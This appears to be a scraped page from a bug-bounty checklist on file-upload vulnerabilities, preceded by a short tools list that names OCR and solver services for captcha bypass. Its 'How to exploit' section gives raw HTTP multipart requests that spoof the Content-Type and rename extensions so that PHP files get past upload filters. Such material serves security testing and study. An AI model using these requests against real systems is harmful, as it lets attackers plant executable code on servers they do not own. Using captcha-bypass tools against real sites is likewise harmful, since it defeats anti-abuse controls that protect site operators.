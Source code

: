 
#### **9. Tools and Resources**
- **OCR for Captcha Bypass**: [Tesseract](https://github.com/tesseract-ocr/tesseract)  
- **Online Captcha Solvers**: [Capsolver](https://www.capsolver.com/)  
- **EXIF Sample Images**: [GitHub Repository](https://github.com/ianare/exif-samples)  

---

## Where to find
In upload file feature, for example upload photo profile feature

## How to exploit
read also this pdf it conayin a many of ideas                                                                                                               
1-https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/File-Upload.pdf                                    by`0xAwali`                   
2-https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/Slides(1).pdf                                      by`ebrahim hegazy`       

1. Change the `Content-Type` value
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
Change the Content-Type
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

2. Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```
Change the request to this
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
